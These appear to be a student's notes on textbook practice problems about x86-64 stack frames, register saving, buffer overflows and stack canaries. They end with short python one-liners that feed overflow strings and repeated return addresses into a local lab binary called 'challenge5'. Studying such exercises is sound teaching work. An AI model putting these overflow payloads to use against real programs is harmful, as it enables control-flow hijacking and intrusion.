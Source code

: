 ## PP 3.32
![](Pasted%20image%2020240306102710.png)
![](Pasted%20image%2020240306102726.png)

| Label | PC (rip) | Instr | rdi | rsi | rax | rsp | \*rsp | desc  |
| ----- | -------- | ----- | --- | --- | --- | --- | ----- | ----- |
| F1    | 548      | lea   | 10  | -   | -   | 818 | 565   | add 1 |
| F2    | 54c      | sub   | 10  | 11  | -   | 818 | 565   | sub 1 |
| F3    | 550      | callq | 9   | 11  | -   | 818 | 565   |       |
| L1    | 540      | mov   | 9   | 11  | -   | 810 | 555   |       |
| L2    | 543      | imul  | 9   | 11  | 9   | 810 | 555   |       |
| L3    | 547      | retq  | 9   | 11  | 99  | 810 | 555   |       |
| F4    | 555      | retq  | 9   | 11  | 99  | 818 | 565   |       |
| M2    | 565      | mov   | 9   | 11  | 99  | 820 | -     |       |
## PP 3.34
![](Pasted%20image%2020240306104248.png)
![](Pasted%20image%2020240306104309.png)
1. r12-r15, rbp, rbx, meaning a0-a5
2. a6-7
3. there are only 6
## PP 3.46
1.

| data               | desc           |
| ------------------ | -------------- |
| 0x0123456789ABCDEF | rbx save       |
|                    | alloc 16 bytes |
|                    |                |
2.

| data                                    | desc           |
| --------------------------------------- | -------------- |
| 0x34 00 00 00 00 40 00 76               |                |
| 0x36 0x37 0x38 0x39 0x30 0x31 0x32 0x33 | rbx save       |
| 0x38 0x39 0x30 0x31 0x32 0x33 0x34 0x35 | alloc 16 bytes |
| 0x30 0x31 0x32 0x33 0x34 0x35 0x36 0x37 |                |
3. 0x34 00 00 00 00 40 00 76
4. rbx
5. Allocates a small fixed size but uses gets. Need to add 1 to strlen, too little is allocated. Strcopy should use length
## PP 3.48
1. without
	1. v: 24(%rsp)
	2. buf: (rsp) - 24(rsp)
2. With
	1. v: 8(rsp)
	2. buf: 16(rsp) - 40(rsp)
	3. canaray: 40(rsp)
3. Canary is right after buffer, so it would be overwritten first

## Challenge 5
part 1
python3 -c "print('A'\*61)" | ./challenge5 1
python3 -c "print('aaaaaaaa' + '\x00\x00\x00\x00\x00\x40\x07\x01'\*100)" | ./challenge5 2

challenge part 2
python3 -c "print(('\x01\x07\x40\x00'+'\x00' * 4)*100)" | ./challenge5 2
